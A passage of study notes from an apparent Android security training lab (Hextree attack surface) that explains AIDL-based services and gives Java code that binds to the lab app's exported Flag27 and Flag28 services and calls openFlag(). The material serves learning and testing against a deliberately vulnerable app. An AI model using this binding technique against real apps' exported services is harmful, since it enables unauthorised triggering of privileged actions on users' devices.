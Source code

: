 ```java
            intent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag27Service");
            bindService(intent, connection, Context.BIND_AUTO_CREATE);
        });

    }

}
```

## AIDL Service
- Services based on AIDL (Android Interface Definition Language) can be easily recognised by looking at the `onBind()` method that returns some kind of .Stub binder.

- These services are based on AIDL files, which look similar to Java, but they are written in the "Android Interface Definition Language".

```
package io.hextree.attacksurface.services;

interface IFlag28Interface {
    boolean openFlag();
}
```

- During compilation this .aidl definition is then translated into an actual .java class that implements the low-level binder code to interact with the service.

- When we want to interact with such a service we probably want to reverse engineer the original .aidl file.

```java
// Exploit
public class Hextree extends AppCompatActivity {
    private Messenger serviceMessenger = null;
    private ServiceConnection connection = new ServiceConnection() {
        @Override
        public void onServiceConnected(ComponentName name, IBinder binder) {
            serviceMessenger = new Messenger(binder);
            IFlag28Interface aidlService = IFlag28Interface.Stub.asInterface(binder);
            try {
                aidlService.openFlag();
            } catch (RemoteException e) {
                throw new RuntimeException(e);
            }
        }
        @Override
        public void onServiceDisconnected(ComponentName name) {
        }
    };

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        Button button = findViewById(R.id.click);
        button.setOnClickListener(v -> {
            // Bind to the service
            Intent intent = new Intent();
            intent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag28Service");
            bindService(intent, connection, Context.BIND_AUTO_CREATE);
        });

```